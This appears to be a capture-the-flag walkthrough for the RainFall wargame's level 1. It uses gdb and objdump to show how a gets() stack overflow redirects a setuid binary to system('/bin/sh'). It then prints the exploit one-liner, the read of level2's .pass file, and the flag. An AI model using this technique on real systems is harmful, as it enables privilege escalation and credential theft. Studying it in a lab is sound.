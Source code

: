 # Level 1

## Vulnerability

Stack overflow <br/>
[Owasp example](https://owasp.org/www-community/attacks/Buffer_overflow_attack)

## Context

```
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
Note: the owner of this binary is level2. 

## Solution

Let's see what the binary does. 
```
level1@RainFall:~$ ./level1
[...]
```
It looks like it's waiting on input from the stdin. Let's take a look in gdb. 
```
level1@RainFall:~$ gdb ./level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>: 	and    $0xfffffff0,%esp
   0x08048486 <+6>: 	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```
We can see here the binary calls the C function ```gets```, which copies a string from stdin to a buffer. <br/>
Let's see if we can cause a buffer overflow. A buffer overflow allows us to change the flow of execution of the program.  <br/>
In this case, if we overflow the ```gets()``` buffer, we can overwrite the ```return``` call and insert our own malicious code in its place. 

```
level1@RainFall:~$ python -c 'print "a"*76' | ./level1
Illegal instruction (core dumped)
```
So we've effectively triggered a stack overflow here by printing 76 characters. <br/>
We can confirm the EIP is at offset 76 by using gdb and [this EIP offet tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/). <br/>
The next step is to look for where we can regain control. <br/>

```objdump``` will give us a deeper look at the assembly instructions in this binary file. <br/>
We use the ```-M intel``` flag for Intel syntax. 
```
level1@RainFall:~$ objdump -d -M intel level1
[...]
08048444 <run>:
[...]
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```
Here we find a function ```run()``` with a ```system()``` call that we can exploit. <br/>
If we run system("/bin/sh"), [it will launch a shell](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands) that will run with the same priveleges as the calling program. 


```
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
So the password for level2 is ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```

## Recreate Exploited Binary

As user level2, in /tmp, create and compile level1_source.c.
```
level2@RainFall:~$ cd /tmp
level2@RainFall:/tmp$ gcc level1_source.c -fno-stack-protector -o level1_source
```
Edit permissions including suid, then move the binary to home directory.
```
level2@RainFall:/tmp$ chmod u+s level1_source
level2@RainFall:/tmp$ chmod +wx ~; mv level1_source ~
```
Exit back to user level1, then run the binary.
```
level2@RainFall:/tmp$ exit
exit
level1@RainFall:~$ (python -c 'print "a"*76 + "\x64\x84\x04\x08"'; cat) | /home/user/level2/level1_source
```
